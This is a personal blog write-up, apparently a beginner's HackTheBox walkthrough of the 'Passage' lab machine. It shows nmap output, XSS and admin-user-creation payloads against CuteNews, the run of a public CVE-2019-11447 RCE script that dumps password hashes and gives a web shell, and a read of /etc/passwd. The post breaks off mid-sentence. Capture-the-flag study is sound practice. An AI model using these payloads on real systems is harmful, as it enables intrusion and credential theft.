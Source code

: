 ```yaml
---
layout: post
title: HackTheBox Notes &emdash; Passage
---
```


This machine is currently active, and is my first attempt at HTB.  Its IP address is `10.10.10.206`.

After pinging it, I have run
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.206
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-23 18:37 EST
Nmap scan report for 10.10.10.206
Host is up (0.70s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.67 seconds
```

From this, we see that port `80` is open in http.  I edited `/etc/hosts` so that it now looks like this:
```bash
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.206    passage

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

You can see where I have added `passage`; the machine we are trying to hack.

Now going into the web browser and typing `http://passage:80`, we get a website!  Horay!

This page is a news page.  The only news article here that is not in Latin is named
```
**Implemented Fail2Ban**
```

I click on this and this is the body:

```
Due to unusally large amounts of traffic, we have implementated Fail2Ban on our website. Let it be known that excessive access to our server will be met with a two minute ban on your IP Address. While we do not wish to lock out our legitimate users, this decision is necessary in order to ensure a safe viewing experience. Please proceed with caution as you browse through our extensive news selection. View & Comment 
```

There is a comments box.  My very first thought was SQL Injections, but then I was reminded of PHP, so I tried commenting something using PHP.  Nothing happened (though the comment did go through).  Then I tried JavaScript, as one of the comments wrote 
```html
<script>alert(5)</script>
```

However, after attempting to write
```html
<script>console.log("Test")</script>
```
The page broke, and I had to go back to the main page, at which point both comments previously there were gone.  I cannot recall what the first comment had said.  I have no idea why 

I also noted that the admin who posted this has the link to an email address: `nadav@passave.htb`.  This might, I think, come in handy with the other open port: `ssh`.

I came to a realisation: why can't I simply google what I want.  I searched `comments section exploit` but didn't find much.  However, after literally searching `cutenews exploit` and finding [this](https://www.exploit-db.com/exploits/10002), I tried the following:
```
[link=javascript://%0adocument.write('<script>alert(/xss/)</script>')]funny pictures[/link]
```

[link=javascript://%0adocument.write('<script>window.open("http://passage/index.php?regusername=a&regpassword=a&regnickname=a&regemail=a%40a.com&reglevel=1&action=adduser&mod=editusers","_self")</script>')]funny pictures[/link]

[Project options > Misc > Embedded Browser > Allow the embedded browser to run without a sandbox](https://hooya0011.tistory.com/84)

After trying a lot of those exploits, I appended my search with `git`, and found [this repo](https://github.com/CRFSlick/CVE-2019-11447-POC), which I cloned.  I then made a CuteNews account for Passage by putting `/CuteNews/` before `index.php`, and logged into CuteNews using this python script, and uploaded the evil image (`sad.gif`).  This gave me a reverse shell, but it wasn't quite what I wanted; every command I ran gave me a bunch of HTML.  I needed to find a similar exploit, but this one wasn't working.

I went back to my Google search and found [this](https://github.com/mt-code/CVE-2019-11447).  I ran this, which uploads a php shell file as my avatar.  After that was successful, I must admit I was a little lost: how do I now use this exploit?  I went back to my refined search once again and found [this](https://raw.githubusercontent.com/musyoka101/CuteNews_2.1.2_RCE_exploit/master/exploit.py) exploit script, which I then ran and put the URL in, as well as my user credentials, and voila&emdash;: a reverse shell!

```
┌──(kali㉿kali)-[~/testing]
└─$ python3 exploit.py                                                                                                                                                                             1 ⨯ 2 ⚙



           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   

Enter the URL> http://passage:80
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

================================================================

================================================================
Possible users
================================================================
kim@example.com
paul@passage.htb
sid@example.com
nadav@passage.htb
================================================================

Do You Have a valid credential: [yes] or [no] ==> yes

[*] Please enter the credentials below
    Username ==> Christopher Tatlock
    Password ==> W@ci5M%QS^Kr8x3ov7!7
[+] Login was successfull

================================================================
Sending Payload
================================================================
signature_key: fad251d607c5ac7ebd52ada5f4c48144-Christopher Tatlock
signature_dsi: 7d4328bd3891236ddce1cb524aeda03b
logged in user: Christopher Tatlock

============================
Dropping to a SHELL
============================

command >
```

I ran `ls /home/` and saw the users `nadav` (that admin we noted earlier) and `paul`; neat!  I recall that there is an `ssh` port open, so I try to make a user for myself (I have done this before; it is trivial for Linux users).  The only tricky thing is that this shell is very minimal and only has `stdout`, I believe.  To get around this, I might show everything as stdout by
```bash
<cmd> 2>&1
```

```bash
command > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
```

We see `paul` and `nadav` down there, as users already, but we do not have access to the password.  We try to add our own user:
```bash
command > sudo useradd christopher 2>&1
sudo: no tty present and no askpass program specified
```
But it does not register our terminal very well (as the shell is minimal/bad).

---

One big take-home message from this&emdash; my first HTB task&emdash; is: just Google!  Unless you think you have a great idea what to try, if you are only starting out